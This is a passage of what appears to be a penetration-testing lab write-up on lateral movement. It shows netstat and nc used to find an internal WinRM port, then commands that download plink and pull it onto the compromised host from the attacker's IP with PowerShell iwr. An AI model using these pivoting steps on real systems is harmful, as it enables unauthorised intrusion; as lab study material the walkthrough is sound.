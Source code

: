 ### Lateral Movement: Pivoting

**SSH Tunneling**

We know that only ports 80 and 445 are shown through Nmap, but we want to exploit them via remote services —> no hope

So we need to run netstat -ano to list all network connections on your system that are in the "LISTENING" 

![image.png](image%2045.png)

I can see some of the ports that are being listened to, such as port 5985. I can verify this by using `nc`

![image.png](image%2046.png)

So we can connect to port 5985 inernally. Now let’s try to connect it outside of the system.

Firstly, we need to get plink and iwr to the server.

`wget https://the.earth.li/~sgtatham/putty/latest/w64/plink.exe` and then `powershell iwr [your ip:port]/plink.exe -o plink.exe`
